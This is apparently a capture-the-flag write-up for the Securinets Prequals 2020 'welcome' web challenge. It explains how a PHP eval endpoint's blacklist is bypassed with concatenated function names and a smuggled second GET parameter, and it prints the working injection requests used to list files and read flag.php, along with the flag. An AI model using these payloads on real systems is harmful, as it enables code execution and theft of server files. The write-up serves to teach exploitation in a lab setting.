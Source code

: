 # Welcome Challenge [web]  Securinets Prequals 2K20

his write-up is about the challenge "welcome" 
writeup on ctf time here :  https://ctftime.org/writeup/19026
## ## The Challenge
Looking at the first challenge ,  When we opened the address in the browser, we were given a number "1" with parametre **/?cmd=print(1)**
when change command i get msg "your input is blacklisted "
so first we need to know what function disable by execution phpinfo() function and  to bypass the `preg_match` filters.

our request would be : **`/?cmd=$f=p.h.p.i.n.f.o; $f();`**
If you look at result . you will notice that `file_get_contents` is not in the list and many other function but first we need to search about what is the flag file name . 
so i we need to make command that execute next \$_Get parametre with next() fonction  and execute it with eval so our request would be  : 

    `$n=ne.xt;eval($n($_GET));`

We won’t go into details in this part, but basically you could use `glob` to find the files. 

    `/cmd=$n=ne.xt;eval($n($_GET));&a=print_r(glob("*"));`

===>
Array ( [0] => flag.php [1] => index.php )

so our file name is flag.php . so  change a lil bit tha request parametre by include **file_get_contents** fonction on **print_r** 

**`cmd=$n=ne.xt;eval($n($_GET));&a=print_r(file_get_contents(%22flag.php%22));`**
TAB : Ctrl + u : 

***`$flaG='securinets{just_pHp_warMup_xD}';`***
